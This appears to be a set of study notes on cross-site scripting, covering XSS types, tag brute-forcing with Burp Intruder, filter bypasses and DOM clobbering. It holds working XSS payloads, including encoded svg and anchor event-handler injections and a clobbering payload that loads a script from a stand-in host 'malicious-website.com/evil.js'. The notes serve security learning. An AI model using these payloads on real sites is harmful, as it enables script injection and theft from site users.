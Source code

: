 
## types
### Stored (Persistent) 
XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

## Reflected (Non-Persistent) XSS 	
Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)


## DOM-based XSS 	Another Non-Persistent 
XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)


## Tags bruteforcing
- [How to search for XSS (with blacklisted HTML tags)](https://www.youtube.com/watch?v=0kfQsRwr_Bc)
- [portswigger/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### steps 
Searching for allowed tags to be inserted in the search field as parameter
1. 'insertpayloadhere' in the field
2. intercept with burp and send to intruder
3. add the tag list to the payload in the intruder settings
4. brute force and look for the 200, we're looking for a tag which allow to have <script> </script>
5. once the tag has been found you need to search for the event eg:onbegin
6. in the search field we will use url encoding: 
```
%3C -> < 
%3E -> >
%20 -> space
%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert%28%22xss%22%29%3E
```

## Waf bypass with anchor
- [Two solutions for the January 2021 Initigriti XSS Challenge](https://www.youtube.com/watch?v=Wbovgw3Qxxc)
```
onmouseover=alert(document.location.has.substring(1))#payloadhere
```

## DOM XSS
```
 <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay"
 src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&
 auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
 ```

##  Exploiting DOM clobbering to enable XSS
- [Two solutions for the January 2021 Initigriti XSS Challenge]([https://www.youtube.com/watch?v=Wbovgw3Qxxc](https://youtu.be/Wbovgw3Qxxc?t=912))
- [portswigger/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [portswigger/dom-based/Advanced-dom-clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)
- [HTMLCollection](https://developer.mozilla.org/en-US/docs/Web/API/HTMLCollection)
![](https://i.redd.it/z8hid4itywd91.png)
#### Clobbering definition:
To strike violently and repeatedly; batter or maul. But, In software engineering and Computer science, clobbering a file, Processor register or regions of computer memory is the process of overwriting its contents completely. 
#### Explanation:
~~DOM clobbering is a technique to escalate HTML injection to XSS which has a high impact  DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.~~
DOM Clobbering use the HTMLCollection vulnerability which allow you to add to the HTMLCollection a malicious item with the same id. 
#### Steps:
1. find a form where you can submit some html
2. check in the javascript if there is a ```window.element || something here``` 
3. bypass the sanitization with double anchortag
  - ```<a id=defaultAvatar><<a id=defaultAvatar name=avatar href='cid:"onerror=alert(1)//)"'>```
  - ```<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>```


## Other Resources:
#### xss API [video](https://youtu.be/xH8WbuApFXw?t=2358)
- filtering and sanitazation come frontend back end.
- Always test that frontend and backend are sanitized.
- eg: registering an account by API with email.

 
